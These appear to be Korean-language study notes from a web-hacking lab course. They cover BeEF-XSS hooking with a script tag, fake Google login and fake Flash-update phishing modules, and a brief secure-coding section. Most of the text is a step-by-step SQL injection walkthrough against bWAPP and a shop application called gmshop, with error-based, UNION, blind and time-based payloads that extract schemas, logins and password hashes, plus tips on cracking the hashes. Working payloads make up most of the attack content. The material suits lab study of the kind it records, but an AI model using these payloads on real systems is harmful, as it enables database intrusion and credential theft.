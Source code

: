 # XSS - 피싱 사이트 유도

### 실습 환경 구성
Kali linux
  * 스냅샷 찍기
  * upgrade 하지 않기 -> ruby, python등이 업데이트 되어서 실습환경과 다를 수 있음
  * 따라서 새로운 버전은 직접 다운로드 하기   
bee-xss 설치

### beef-xss
* hook -> 낚는다 -> 보안에서는 뭔가를 훔쳐본다는 의미 
* hook script   
` <script src="http://192.168.75.128:3000/hook.js"></script> `
* 세션을 가로채는 것은 일시적 -> 사용자가 게시물을 나가면 OFFLINE
* beef-xss는 브라우저의 권한 정도만 통제할 수 있음
  * Hooked Domain
    * Create Alert Dialog
      * 피해자 PC의 브라우저에서 alert 띄울 수 있음
    * Create Prompt Dialog
  * Social Engineering
    * google phising
      * 구글 로그인 하면 실제 로그인 실패 페이지로 리다이렉션
        * 아이디, 비번 알 수 있음
    * fake flash update
      * adobe flash 업데이트하라고 나옴
        * install 하면 악성코드가 다운로드 됨

## 보안 가이드
  1. 시큐어 코딩
    * server side code
      * php, jsp, asp
  * 하나의 보안 모듈(파일)을 만들어서 입력시 거쳐가도록 설정
    * functions_external.php의 xss_check_1() 함수
      * <를 &lt로 변환하는 로직이 있음
      * url encoding을 하면 우회할 수 있음
      * 보안가이드 -> htmlspecialchar 함수 사용
  2. 보안 설정
    * index of, 버전 정보 노출
    * apache 보안 설정
  3. 보안 솔루션 도입
    * 사람의 손으로 막을 수 없는 수준일 때

# 에러베이스 SQL Injection

### SQL Injection - GET Search - mysql 테스트
* mysql 세팅   
  ` beebug root mysql password `   
  ` use bWAPP; `   
  ` desc movies; `      
* 싱글 쿼터를 입력하면 Error 발생   
  ` select * from movies where title='''; `
  * 웹서비스 에러가 아닌 DB 에러 메시지가 그대로 노출
* 더블 쿼터는 에러 안남   
  ` select * from movies where title='"'; `
* 싱글 쿼터를 사용해서 모든 데이터가 나오게 하기   
  ` select * from movies where title='' or 1=1# `
  * 1=1이 참이므로 title은 true가 되고 모든 데이터가 나오게 됨

### SQL Injection - GET Search - beebug
beebug에서 직접 search input에 sql injection 해보기
* 모든 데이터 추출 ` ' or 1=1# `   
* 컬럼 개수 알아내기   
` ' order by 1# `   
` ' order by 2# `   
` ' order by 3# `   
` ' order by 8# `
  * 에러발생 -> 실제 컬럼 개수는 7개임을 알 수 있음
* 컬럼 개수로 컬럼 인덱스 알아내기   
` 'union select 1,2,3,4,5,6,7# `
  * Union: 기존에 있던 테이블에 더하는 것
  * 컬럼 인덱스: 2 3 5 4
  * 이렇게 하면 오류 발생 ` 'union select 1,2,3,4# `
* 컬럼 인덱스만 표시하게 하기   
` 0'union select 1,2,3,4,5,6,7# `
* 스키마 정보 알아내기   
` 0'union select 1,@@version,user(),4,database(),6,7# `
  * Ubuntu 사용, root 권한, bWAPP Database 사용

### information schema 정보 털기
* information schema
  * 본인을 포함한 다른 데이터베이스의 스키마 정보를 담고 있음
  * 테이블 정보를 가져오라 할 수 있음
* 컬럼 인덱스 찾기
  * ` 0' union select 1,2,3,4,5,6,7 from information_schema.tables# `
  * 2, 3, 5, 4번 컬럼으로 표시 가능
* 테이블 이름 추출   
  ` 0' union select 1,table_schema,3,table_name,5,6,7 from information_schema.tables# `   
  ` 0' union select 1,table_schema,3,table_name,5,6,7 from information_schema.tables where table_schema='bWAPP'# `
    * bWAPP 데이버테이스에 blog, heroes, movies, users 테이블이 있음
* bWAPP 데이터베이스의 users 테이블의 컬럼 추출   
`0' union select 1,table_name,3,column_name,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users'#`
  * 볼만한 컬럼 데이터는 id, login, password, admin
* users 테이블 컬럼 데이터 추출   
` 0' union select 1,id,login,password,admin,6,7 from users # `

## 쇼핑몰 대상 공격
1. 컬럼 개수 알아내기   
` 0' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24# `
    * 제목 3, 글쓴이 4, 날짜, 8, 조회수 7
2. 데이터베이스 이름 알아내기    
` 0' union select 1,2,database(),user(),5,6,7,@@version,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24# `
    * 데이터베이스 -> gmshop
3. 테이블 정보 확인   
` 0' union select 1,2,table_name,3,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from information_schema.tables where table_schema='gmshop'# `
    * 볼만한 테이블: admin, member
4. admin 테이블 컬럼 정보 확인   
` 0' union select 1,2,column_name,3,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from information_schema.columns where table_name='admin'# `
5. member 테이블 컬럼 정보 확인   
` 0' union select 1,2,column_name,3,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from information_schema.columns where table_name='member'# `
   * name, userid, pwd 컬럼을 확인해보자
6. 비밀번호 확인   
` 0' union select 1,2,name,pwd,5,6,7,userid,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from member# `
    * asd *A4B6157319038724E3560894F7F932C8886EBFCF asd

### 해시값 해독
* 구글에 검색하면 유명한 해시값은 바로 알 수 있음
  * [예시: 6885858486f31043e5839c735d99457f045affd0](https://md5hashing.net/hash/sha1/6885858486f31043e5839c735d99457f045affd0)
    * 보안성이 약한 sha1 라고 함
* kali에서 hash-identifier 또는 해시 애플리케이션 사용

### mysql 함수   
` substring(string, start_position, length) `   
* 문자열의 특정 부분을 추출하는 데 사용
  * `string` : 추출할 문자열
  * `start_position` : 추출을 시작할 위치 (1부터 시작)
  * `length` : 추출할 문자 수
  * `substring(database(), 1, 1)='a'` -> 첫 번째 문자가 a인지 아닌지     

` ascii(string) `
* 문자열의 첫 번째 문자에 대한 ASCII 값 반환

## 블라인드 인젝션 공격   
앞을 참으로 만들고 뒤에 물어보고 싶은 내용을 질의해서 참/거짓의 결과로 원하는 내용을 얻는 것   
` ' or 1=1 and length(database())=1# ` -> false   
` ' or 1=1 and length(database())=5# ` -> true   
` ' or 1=1 and substring(database(), 1, 1)='a'# ` -> false   
` ' or 1=1 and substring(database(), 1, 1)='b'# ` -> true   
` ' or 1=1 and substring(database(), 2, 1)='w'# ` -> true   
` ' or 1=1 and ascii(substring(database(), 1, 1))=97# ` -> false   
` ' or 1=1 and ascii(substring(database(), 1, 1))>97# ` -> true 

### 테이블 이름 얻기
* 테이블 개수 구하기
` ' or 1=1 and length((select table_name from information_schema.tables where table_schema='bWAPP' limit 0, 1))=4# ` -> true

* 테이블 이름 구하기   
` ' or 1=1 and substring((select column_name from information_schema.columns where table_name='users' limit 0, 1),1,1) ='i'# ` -> true

## 타임베이스 블라인드 SQL Injection
` ' or 1=1 and sleep(5)# `   
  * 페이지 로딩이 진행되면 쿼리문이 사용된 거임 
  * 블라인드 인젝션과 비슷하다고 보면 됨  

` ' or 1=1 and length(database())=5 and sleep(5)# ` 